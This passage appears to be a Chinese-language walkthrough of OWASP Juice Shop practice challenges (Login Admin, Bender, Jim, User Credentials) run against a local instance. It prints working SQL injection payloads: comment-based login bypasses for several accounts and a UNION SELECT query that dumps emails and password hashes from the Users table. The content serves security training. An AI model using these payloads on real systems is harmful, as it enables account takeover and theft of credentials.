 
        ![img](img/christmas-deleted.PNG)

    - Login Admin(⭐⭐)

        进行SQL注入攻击，输入语句为`admin@juice-sh.op'--`

        ![img](img/login-admin.PNG)

    - Login Bender(⭐⭐⭐)（参考Solution）
    
        进行SQL注入攻击，输入语句为`bender@juice-sh.op'--`

        ![img](img/login-bender.PNG)

        **疑问：** 不知道这个邮箱名称是咋猜到的，是Juice Shop的内置用户都有默认后缀吗？

    - Login Jim(⭐⭐⭐)

        1. 猜测Jim的邮箱，盲猜前缀是jim

        2. 进行SQL注入攻击，发现使用邮箱jim@juice-sh.op可以成功登录，输入语句为`jim@juice-sh.op'--`

        ![img](img/login-jim.PNG)

    - User Credentials(⭐⭐⭐⭐)

        之前在Christmas Special题目中通过`http://127.0.0.1:3000/rest/products/search?q=xxx`查找到了商品信息，因此目前在不知道user的查询路径&是否有准确的查询路径的条件下可以通过UNION SQL攻击的方式得到目标数据库，注入语句如下：

        ```
        http://127.0.0.1:3000/rest/products/search?q=qwert')) UNION SELECT id, email, password, lastLoginIp, profileImage, '6', '7', '8', '9' FROM Users--
        ```

        注：由于在Log in with Chris' erased user account与Christmas Special中已经知道了用户与商品的数据库存储结构，所以这里不需要经过太多次的注入尝试，但实际情况中需要根据网页响应来逐步调整注入语句
